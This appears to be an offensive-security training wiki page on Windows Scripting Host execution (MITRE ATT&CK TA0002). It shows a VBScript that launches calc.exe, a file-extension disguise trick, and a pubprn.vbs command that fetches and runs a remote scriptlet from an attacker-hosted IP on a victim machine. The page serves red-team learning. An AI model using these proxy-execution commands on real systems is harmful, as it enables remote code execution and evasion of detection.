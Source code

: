```yaml
---
description: MITRE ATT&CK™ Technique TA0002
---
```

# Windows Scripting Host (WSH)

## Theory

Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system. It is a Windows native engine, cscript.exe (for command-line scripts) and wscript.exe (for UI scripts), which are responsible for executing various Microsoft Visual Basic Scripts (VBScript), including vbs and vbe.

## Practice


{% tabs %}

{% tab title="Basic Usage" %}
let's use the VBScript to run executable files. The following vbs code is to invoke the Windows calculator, proof that we can execute .exe files using the Windows native engine (WSH).

```bash
#openCalc.vbs
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```

We can now execute the vbs script on the target machine
```bash
cscript.exe c:\Users\Veresk\Desktop\openCalc.vbs
wscript.exe c:\Users\Veresk\Desktop\openCalc.vbs
```

{% hint style="success" %}
A nice trick !
{% endhint %}
A trick is to change the .vbs extension by a randomly choosen one.
```bash
wscript.exe /e:VBScript c:\Users\Veresk\Desktop\openCalc.odt
```
{% endtab %}

{% tab title="pubprn.vbs" %}

Using [pubprn.vbs](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc753116(v=ws.11)), we will execute code to launch calc.exe. First of, the xml that will be executed by the script:

```bash
#http://192.168.2.71/tools/mitre/proxy-script/proxy.sct
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"   
	>
</registration>

<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");	
]]>
</script>

</scriptlet>
```
On the victime computer:
```bash
cscript /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://192.168.2.71/tools/mitre/proxy-script/proxy.sct
```


{% endtab %}

{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/weaponization" %}
